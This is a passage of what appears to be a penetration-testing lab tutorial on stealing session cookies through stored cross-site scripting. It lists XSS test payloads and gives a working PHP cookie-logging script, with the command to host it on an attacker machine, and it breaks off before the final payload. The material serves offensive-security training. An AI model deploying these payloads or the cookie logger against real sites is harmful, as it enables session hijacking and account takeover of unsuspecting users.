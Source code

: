 Please refer to the following resource for more in-depth details: [Introduction To ASP.NET Sessions](https://www.c-sharpcorner.com/UploadFile/225740/introduction-of-session-in-Asp-Net/)

## XSS
In this module, we'll be using some basic XSS Payloads to trigger functionalities in the Website like : 
```
"><img src=x onerror=prompt(document.domain)>
"><img src=x onerror=confirm(1)>
"><img src=x onerror=alert(1)>
```

Check these payloads by entering into the field directly, and if they get triggered, check within the Developer Tools, that if HTTPOnly if "off" or not.

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

Code: php

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

  Cross-Site Scripting (XSS)

```shell-session
ShibuShivansh@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

